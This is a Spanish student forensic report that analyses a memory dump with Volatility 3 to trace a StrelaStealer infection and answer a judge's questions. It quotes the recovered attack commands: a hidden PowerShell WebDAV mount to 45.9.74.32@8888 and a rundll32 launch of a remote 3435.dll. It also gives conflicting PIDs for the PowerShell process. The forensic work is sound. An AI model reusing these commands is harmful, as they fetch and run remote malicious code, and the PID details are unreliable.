






# TAREA Unidad 5: Documentación y elaboración de informes de análisis forenses

## Índice

 

## Caso práctico

Eres personal investigador forense en una institución financiera, y tu SIEM (Security Information and Event Management) ha detectado actividad inusual en una estación de trabajo con acceso a datos financieros sensibles. Ante la sospecha de una brecha de seguridad, has recibido un volcado de memoria de la máquina comprometida. Tu tarea es analizar la memoria en busca de indicios de compromiso, rastrear el origen de la anomalía y evaluar su alcance para contener el incidente de forma eficaz.

 

## ¿Qué te pedimos que hagas?

	
Detalles del enunciado

**Enunciado**

Se deberá redactar un informe detallado con la siguiente estructura:

1. Análisis de la memoria RAM utilizando Volatility y herramientas auxiliares como Foremost, si fuesen necesarias.
2. Documentación detallada del proceso y de los hallazgos.
3. Redacción completa del informe forense, siguiendo una estructura profesional.
4. Responder a las preguntas específicas del juez que orientan la investigación.
5. Presentar el informe con anexos reproducibles (salidas de comandos, capturas, archivos relevantes).

 

**Ficheros**

[Memoria RAM disponible para el análisis](https://drive.google.com/file/d/1Xh-66CRPobtxPN0Q5Ddam8ZRhBHdX-HU/view?usp=sharing)

 

**Preguntas clave del juez**

A continuación se indican las preguntas clave que el Juez necesita para proseguir con la investigación:

1. ¿Cuál es el perfil y sistema operativo del equipo?
2. ¿Qué usuario estaba activo durante la sesión?
3. Identificar el nombre del proceso malicioso ayuda a comprender la naturaleza del ataque. ¿Cuál es el nombre del proceso malicioso?
4. Conocer el ID del proceso padre (PPID) del proceso malicioso ayuda a rastrear la jerarquía de procesos y entender el flujo del ataque. ¿Cuál es el PID del proceso padre del proceso malicioso?
5. Determinar el nombre del archivo que el malware utiliza para ejecutar la carga útil de segunda fase es crucial para identificar actividades maliciosas posteriores. ¿Cuál es el nombre del archivo que el malware utiliza para ejecutar la carga útil de segunda fase?
6. Identificar el directorio compartido en el servidor remoto ayuda a rastrear los recursos a los que accede el atacante. ¿Cuál es el nombre del directorio compartido al que se está accediendo en el servidor remoto?
7. ¿Cuál es el ID de la sub-técnica de MITRE ATT&CK que describe la ejecución de una carga útil de segunda fase utilizando una utilidad de Windows para ejecutar el archivo malicioso?
8. Identificar el nombre de usuario bajo el cual se ejecuta el proceso malicioso ayuda a evaluar la cuenta comprometida y su posible impacto. ¿Cuál es el nombre de usuario bajo el que se ejecuta el proceso malicioso?
9. Conocer el nombre de la familia de malware es esencial para correlacionar el ataque con amenazas conocidas y desarrollar defensas adecuadas. ¿Cuál es el nombre de la familia de malware?

 

**Estructura del informe forense a entregar**

El informe deberá seguir la siguiente estructura profesional:

- **Glosario de términos**: Definiciones de conceptos técnicos utilizados (RAM dump, PID, Volatility, etc.).
- **Resumen ejecutivo**: Breve resumen de los hallazgos clave. Conclusiones más relevantes a alto nivel.
- **Presentación**: Nombre de los autores. Número de colegiado o identificador profesional. Titulación académica y formación en ciberseguridad. Entidad o parte requirente del informe.
- **Alcance**: Objeto de la investigación. Preguntas clave a resolver. Limitaciones del análisis.
- **Antecedentes**: Descripción del caso. Autorizaciones y permisos (simulados). Contexto del análisis.
- **Investigación**: Herramientas utilizadas.  Pasos realizados en el análisis (comandos, logs). Custodia de evidencias (simulada). Línea de tiempo y análisis de procesos. Conexiones de red. Análisis de procesos sospechosos. Extracción de archivos e imágenes. Evaluación de archivos comprimidos.
- **Conclusiones**: Dictamen final del perito. Resumen de hallazgos respondidos. Evidencias que respaldan las conclusiones.
- **Anexos**: Logs de comandos utilizados. Capturas de pantalla. Archivos generados (recortes de strings, volcado de procesos, imágenes extraídas). Documentación legal o técnica de soporte.

 

### Glosario de términos

- **Volcado de memoria**: Copia exacta del contenido de la memoria RAM de un sistema en un momento dado, utilizada para analizar datos volátiles como conexiones, procesos en ejecución o contraseñas temporales.
- **PID (Process ID)**: Identificador numérico único asignado por el sistema operativo a cada proceso en ejecución.
- **SID (Security ID)**: Identificador alfanumérico único que el sistema operativo asigna a cada usuario, grupo o proceso para gestionar sus permisos y accesos
- **PPID (Parent Process ID)**: Identificador del proceso padre que ha iniciado a un proceso secundario o hijo. Permite trazar la jerarquía de ejecución.
- **Volatility**: Framework avanzado de código abierto utilizado para la extracción y análisis forense de la memoria RAM.
- **MITRE ATT&amp;CK**: Base de conocimiento a nivel global que documenta las tácticas, técnicas y procedimientos (TTPs) utilizados por los ciberdelincuentes.
- **_Payload_**: Parte del código de un malware que ejecuta la acción maliciosa principal (por ejemplo, cifrar datos, robar credenciales o establecer acceso remoto).
- **DLL (Dynamic Link Library)**: Archivo que contiene código y datos que pueden ser utilizados por varios programas al mismo tiempo en sistemas Windows.
- **WebDAV**: Extensión del protocolo HTTP que permite a los clientes realizar operaciones de creación y gestión de contenido web a distancia, comúnmente abusado para montar directorios remotos compartidos.
- **_Proxy_ binario del sistema**: Uso de herramientas nativas y legítimas del sistema operativo, como rundll32.exe, para enmascarar y ejecutar código malicioso, evadiendo así la detección de soluciones de seguridad como los antivirus.
- **StrelaStealer**: Familia específica de software malicioso cuyo objetivo principal es la sustracción encubierta de credenciales de acceso, como clientes de correo electrónico corporativo.
- **ThreatFox**: Plataforma abierta de inteligencia de amenazas utilizada por analistas forenses y equipos de seguridad para buscar, compartir y validar Indicadores de Compromiso.
- **_Malware_**: Programa informático diseñado con intenciones hostiles para infiltrarse, comprometer o dañar un sistema de información sin el consentimiento del usuario.

 

### Resumen ejecutivo

El análisis forense practicado sobre el volcado de memoria —la evidencia digital—, ha revelado la ejecución y compromiso del equipo por parte de un agente malicioso. El ataque se inició mediante la ejecución de un proceso de `powershell.exe`, el cual se ejecutó de forma oculta para evadir la detección precoz.

Este proceso malicioso estableció una conexión hacia un servidor remoto montando un directorio compartido vía WebDAV (`davwwwroot`). Posteriormente, aprovechó el archivo `rundll32` de Windows para descargar y ejecutar en memoria una carga útil de segunda fase (`3435.dll`). Toda la actividad anómala se ejecutó bajo los privilegios del usuario activo en ese momento, identificado como Elon.

Las tácticas, técnicas y herramientas observadas coinciden, sin lugar a dudas, con los indicadores de compromiso de la familia de _malware_ StrelaStealer, un troyano especializado en el robo de credenciales de correo electrónico.

 

### Objeto

El presente informe ha sido realizado por encargo de la Fiscalía de área de Málaga que manifiesta a José Carlos López Henestrosa, perito Superior en Informática, con DNI 123456789A, la investigación de los siguientes antecedentes y objetivos. Dicha exploración será otorgada al juez de instrucción de la fiscalía de Málaga para el estudio del caso y su correspondiente dictamen.

 

### Alcance

El presente informe tiene por objeto el análisis técnico de la evidencia aportada. En este caso, un volcado de memoria RAM. Para su análisis, se han empleado técnicas de análisis forense volátil para reconstruir la cadena de ataque. El alcance está estrictamente delimitado a proporcionar la siguientes información solicitada por el Juez:

- Perfil y sistema operativo del equipo.
- Usuario activo durante la sesión.
- Nombre del proceso malicioso.
- PPID del proceso malicioso.
- Nombre del archivo que el _malware_ utiliza para ejecutar la carga útil de segunda fase.
- Nombre del directorio compartido al que se está accediendo en el servidor remoto.
- ID de la sub-técnica de MITRE ATT&CK utilizada.
- Nombre de usuario bajo el que se ejecuta el proceso malicioso.
- Nombre de la familia de _malware_.

Consideraciones: 

- Cualquier dato o actividad que no esté al alcance de esta investigación pericial queda excluido de su análisis, auditoría o peritaje.

 

### Antecedentes

La Fiscalía de área de Málaga solicita peritar y extraer legalmente información ilegítima almacenada en el ordenador de la persona sospechosa de estos hechos. Concretamente, una estación de trabajo corporativa ha sido víctima de una brecha de seguridad que derivó en la potencial exfiltración de datos. Se ha encomendado el análisis del archivo [`SIEM_RAM.dmp`](https://drive.google.com/file/d/1Xh-66CRPobtxPN0Q5Ddam8ZRhBHdX-HU/view?usp=drive_link) correspondiente al volcado de memoria del equipo afectado. Se presupone que la recolección de la evidencia ha respetado los principios de la cadena de custodia.

 

### Investigación

Para el análisis de la evidencia se ha utilizado la herramienta Volatility 3, el estándar de la industria en forense de memoria, apoyado por técnicas de inteligencia de amenazas.

 

#### Identificación del sistema

Identificamos la arquitectura y versión del sistema operativo utilizando el plugin `windows.info` con el comando `python3 vol.py -f SIEM_RAM.dmp windows.info`.

>**Figura 1** – Información del sistema

El volcado pertenece a una arquitectura de **Windows 10 x64**.

 

#### Usuario activo

Al ejecutar el comando `python3 vol.py -f SIEM_RAM.dmp windows.sessions`, vemos que en la sesión 1, la cual es la sesión interactiva del usuario, los procesos principales como `explorer.exe`, `msedge.exe` y `thunderbird.exe` se están ejecutando bajo el usuario **Elon**.

>**Figura 2** – Procesos en ejecución

 

#### Nombre del proceso malicioso

Examinamos el árbol de procesos en busca de ejecuciones anómalas mediante el _plugin_ `windows.pstree` con el comando `python3 vol.py -f SIEM_RAM.dmp windows.pstree`.

>**Figura 3** – Proceso malicioso

Si bien la cadena de ataque se inicia a través de `powershell.exe` (PID 4120), el cual ejecuta un comando oculto (`-windowstyle hidden`) para montar un recurso de red mediante WebDAV (`net use \\45.9.74.32@8888\davwwwroot\:`), este es un binario legítimo del sistema operativo instrumentalizado únicamente como vector inicial.

El proceso que realmente se considera la amenaza activa, ya que aloja y ejecuta el código malicioso en memoria, es `rundll32.exe`. El atacante abusa de esta utilidad nativa de Windows para cargar y ejecutar la carga útil de segunda fase (el archivo `3435.dll`) alojada en el servidor remoto. Por tanto, es el proceso `rundll32.exe` el que ha sido corrompido para realizar la actividad maliciosa principal.

 

#### PID del proceso padre del proceso malicioso

Basándonos en el análisis del árbol de procesos obtenido mediante el plugin `windows.pstree` (Figura 3), se observa la línea de ejecución que desencadena el compromiso del sistema. En la salida proporcionada por Volatility 3, la primera columna numérica corresponde al PID y la segunda al PPID.

El análisis de la terminal de comandos ejecutada nos dice que es el proceso `powershell.exe` quien orquesta el ataque montando primero la unidad de red remota y lanzando posteriormente el ejecutable `rundll32.exe` para inyectar la librería dinámica `3435.dll`.

Como identificamos a `rundll32.exe` como el proceso portador de la amenaza, su proceso creador en la jerarquía de ejecución es `powershell.exe`. Según los datos extraídos de la memoria, el PID asignado a este proceso de PowerShell es 3692. Por consiguiente, el PID del proceso padre (PPID) del proceso malicioso es **3692**.

 

#### Nombre del archivo para ejecutar la carga útil de segunda fase

Si volvemos de nuevo al contenido de la Figura 3, nos fijamos que al final de la línea del proceso `powershell.exe` (PID 4120) aparece `rundll32 ... 3435.dll,entry`, lo cual le indica a la herramienta legítima de Windows que vaya al servidor remoto y ejecute el archivo `3435.dll`. La palabra `,entry` simplemente le indica a Windows en qué parte específica del código del archivo DLL debe empezar a leer.

 

#### Nombre del directorio compartido al que se está accediendo en el servidor remoto

Partiendo nuevamente de la Figura 3, podemos ver que el proceso hijo `net.exe` ejecuta una instrucción que contiene `use \\45.9.74.32@8888\davwwwroot\`. `\\` indica el inicio de una ruta de red; `45.9.74.32@8888` es la dirección IP del servidor remoto controlado por el atacante, especificando que la conexión debe hacerse a través del puerto 8888; y **`\davwwwroot\`** es el nombre del directorio compartido al que se está accediendo en dicho servidor.

 

#### ID de la sub-técnica de MITRE ATT&CK

Al haber utilizado `rundll32.exe` como un _proxy_ binario del sistema para ejecutar código malicioso, la sub-técnica de MITRE ATT&CK corresponde a **T1218.011** (System Binary Proxy Execution: Rundll32).

 

#### Nombre de usuario bajo el que se ejecuta el proceso malicioso

El plugin `windows.getsids` inspecciona el token de acceso del proceso en la memoria. Este token actúa como la credencial de identificación del proceso y contiene todos los SID asociados a él. Podemos obtener el nombre de usuario, por tanto, con el comando `python3 vol.py -f SIEM_RAM.dmp windows.getsids`.

>**Figura 4** – Lista de SID

La línea marcada (`S-1-5-21-...-1001`) es el SID único de la cuenta del usuario **Elon**, lo cual confirma que el _malware_ se está ejecutando bajo su contexto. Además, si observamos tres líneas por debajo de esta, veremos que el proceso pertenece al grupo Administrators (`SID S-1-5-32-544`) y tiene un nivel de integridad High Mandatory Level (`SID S-1-16-12288`). Esto significa que el usuario Elon tiene permisos de administrador local y que el _malware_ se está ejecutando con privilegios de administrador, lo cual le otorga al atacante el control total sobre el equipo para modificar registros, instalar servicios, desactivar el antivirus o robar credenciales.

 

#### Nombre de la familia de malware

Al consultar en la plataforma de inteligencia de amenazas [ThreatFox](https://threatfox.abuse.ch/ioc/1296897/) la IP remota (`45.9.74.32`), hallamos que el _malware_ pertenece a la familia [**StrelaStealer**](https://threatfox.abuse.ch/ioc/1296897/).

 

### Conclusiones

A la vista del presente dictamen pericial y de los datos obtenidos mediante la investigación técnica realizada sobre el volcado de memoria, esta investigación concluye que:

- El equipo del cual se ha extraído la memoria RAM ha sido objeto de una intrusión ilegítima, vulnerando el perímetro de la institución financiera, por lo que las acciones derivadas de este compromiso tendrán que ser valoradas en la sentencia o resolución adjudicada por el juez o autoridad competente.
- La memoria examinada evidencia la comisión de un presunto delito de acceso ilícito a sistemas de información y espionaje informático, pues la información técnica que se ha conseguido recuperar demuestra la ejecución encubierta del _malware_ StrelaStealer operando con máximos privilegios. Dicho _malware_ está diseñado específicamente para la sustracción de credenciales y el acceso no autorizado a datos financieros sensibles, esquivando en todo momento las medidas de seguridad del sistema.
- Por todo lo reseñado, y atendiendo a los resultados y fiabilidad de las pruebas forenses realizadas, se determina que en todo momento se han violado los principios de confidencialidad, integridad y disponibilidad de la información.

**Por todo ello, será la autoridad judicial u órgano competente quien sentencie en base a este informe e instruya las acciones legales pertinentes contra las personas responsables y partícipes de este ciberataque.**

 

### Anexos

Para fundamentar el análisis del comportamiento del atacante, se adjuntan los siguientes informes técnicos e inteligencia de amenazas:

- [Ficha técnica de la sub-técnica T1218.011](https://attack.mitre.org/techniques/T1218/011/) que explica el _modus operandi_ empleado para evadir las defensas del sistema operativo.
- [Informes de análisis de malware de VirusTotal](https://www.virustotal.com/gui/ip-address/45.9.74.32) que vinculan la infraestructura detectada y el _payload_ de segunda fase con la familia de _malware_ especializada en robo de credenciales.
- [Entrada del INCIBE](https://www.incibe.es/servicio-antibotnet/info/StrelaStealer) con más información sobre el _malware_ StrelaStealer.

 

## Resultado

### Calificación

10,00 / 10,00

### Comentarios de retroalimentación y rúbrica

